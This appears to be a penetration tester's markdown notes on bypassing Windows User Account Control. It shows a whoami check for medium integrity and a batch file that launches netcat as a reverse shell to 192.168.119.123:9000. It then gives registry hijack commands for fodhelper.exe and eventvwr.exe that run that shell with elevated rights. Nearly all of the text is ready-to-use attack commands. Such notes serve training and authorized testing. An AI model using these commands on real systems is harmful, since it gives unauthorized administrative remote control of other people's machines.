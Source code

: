 
## Medium to High Mandatory Level ( UAC Bypass )

UAC Bypass if groups are shown as the following

```txt
c:\> whoami /groups
...
BUILTIN\Administrators
Mandatory Label\Medium Mandatory Level
...
```

## Upload netcat
![](Pasted%20image%2020220105092144.png)

```txt
# shell.bat
c:\users\public\downloads\nc.exe -e cmd.exe 192.168.119.123 9000
```

## fodhelper.exe
```txt
C:\Windows\System32\fodhelper.exe
```

https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/

```txt
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "C:\users\public\downloads\shell.bat" /f

c:\> fodhelper.exe
```

![](Pasted%20image%2020220105083809.png)

## eventvwr.exe
```txt
C:\> reg add HKCU\Software\Classes\mscfile\shell\open\command /d "c:\users\public\downloads\shell.bat" /t REG_SZ

C:\> eventvwr.exe
```
